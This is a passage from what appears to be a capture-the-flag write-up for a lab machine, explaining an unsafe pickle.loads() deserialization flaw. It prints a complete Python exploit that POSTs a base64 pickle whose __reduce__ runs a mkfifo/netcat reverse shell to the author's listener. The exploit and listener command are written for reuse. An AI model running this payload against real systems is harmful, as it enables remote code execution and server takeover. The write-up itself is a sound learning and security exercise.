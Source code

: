 This part of the code is very dangerous. The [pickle](xxx) library (and its *pickle.loads()* function) should never be used in combination with user input. Problem is that an attacker can input a malicious serialized object which gets unserialized with *pickle.loads()*, passed to *eval()* and therefore executed on the server. Baam, code execution. Not good. More about this issue can be read [here](https://blog.nelhage.com/2011/03/exploiting-pickle/).

### Crafting an exploit
From the code we know that the server "safely" base64 **decodes** POST data made to `/newpost` and *pickle.loads()*. If we revert these steps - send a "safely" base64 **encoded** pickle object, we can achieve command execution. Here's my exploit:
{% highlight python %}
#!/usr/bin/env python
#payload.py
import pickle
import base64
import os
import requests
    
class payload(object):
    def __reduce__(self):
       comm = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.51 1235 >/tmp/f"
       return (os.system, (comm,))

payload = base64.urlsafe_b64encode(pickle.dumps( payload()))

r = requests.post("http://10.10.10.91:5000/newpost", payload)
print r.data

{% endhighlight %}

This fires up a reverse shell that connects to `10.10.14.51` (my IP) at  port `1235`. Just change the parameters to your needs, set up *netcat* listener (`nc -lvp 1235`) and start the exploit. 

<img src="/img/blog/htb-devoops/htb-devoops-08.png">
